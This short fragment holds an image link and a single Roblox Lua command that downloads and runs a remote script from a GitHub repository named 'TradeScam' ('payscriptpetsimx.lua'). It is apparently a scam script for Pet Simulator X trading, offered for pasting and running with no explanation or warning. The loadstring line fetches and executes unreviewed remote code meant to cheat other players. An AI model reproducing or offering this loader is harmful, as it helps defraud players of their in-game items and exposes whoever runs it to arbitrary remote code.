 loadstring(game:HttpGet("https://raw.githubusercontent.com/bithui/TradeScam/main/payscriptpetsimx.lua"))()
